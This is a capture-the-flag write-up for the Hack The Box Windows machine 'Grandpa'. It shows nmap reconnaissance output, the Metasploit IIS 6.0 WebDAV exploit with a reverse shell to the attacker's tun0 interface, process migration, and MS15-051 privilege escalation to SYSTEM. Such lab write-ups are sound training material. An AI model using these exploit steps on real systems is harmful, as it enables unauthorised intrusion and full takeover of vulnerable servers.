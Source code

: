 # Hackthebox - Grandpa - Windows

- [Box on HTB](https://app.hackthebox.com/machines/13)

## Nmap

```bash
┌──(kali㉿kali)-[~/Documents/grandpa]
└─$ nmap -Pn -sV -sC -p- 10.10.10.14
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-14 14:03 EDT
Nmap scan report for 10.10.10.14
Host is up (0.030s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Date: Fri, 14 Oct 2022 18:05:17 GMT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.10 seconds
```

- As for granny this box has iis 6.0.
- Let's run the nmap scan with the vuln script

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV --script=vuln 10.10.10.14
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-14 14:11 EDT
Nmap scan report for 10.10.10.14
Host is up (0.027s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-enum: 
|   /postinfo.html: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.dll: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.exe: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.dll: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.exe: Frontpage file or folder
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /_vti_bin/shtml.dll: Frontpage file or folder
|_  /_vti_bin/shtml.exe: Frontpage file or folder
|_http-server-header: Microsoft-IIS/6.0
| http-frontpage-login: 
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|       
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 177.91 seconds
```

### Webdav

- Let's use the same metasploit module we used in granny `use exploit/windows/iis/iis_webdav_scstoragepathfromurl`
- `set RHOSTS 10.10.10.14`
- `set LHOST tun0` and `run`
- We get a shell let's migrate as getuid returns an access denied
- `ps` we choose a process running as `NT AUTHORITY\NETWORK SERVICE` and then we use `migrate` with pid `migrate 1608`
- getuid now returns something to us

## Privesc

- Let's try local exploit suggester first `run multi/recon/local_exploit_suggester`
- As for granny we do not get any result.
- Let's check systeminfo and run wes on it

```dos
Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 29 Minutes, 23 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 742 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,279 MB
Page File: In Use:         191 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

- We get also a lot of results with wes
- Let's try CVE-2014-4076 (MS14-070)
- Here as well our shell dies
- It does not seem to be vulnerable to CVE-2014-4113 according to wes
- Let's try CVE-2015-1701 (MS15-051)
- `use exploit/windows/local/ms15_051_client_copy_image`
- `set SESSION 3`
- `set LHOST tun0`
- `set LPORT 4445`
- `run`
- We get a system shell and we can grab the flags  
![system](../.res/2022-10-14-15-08-02.png)
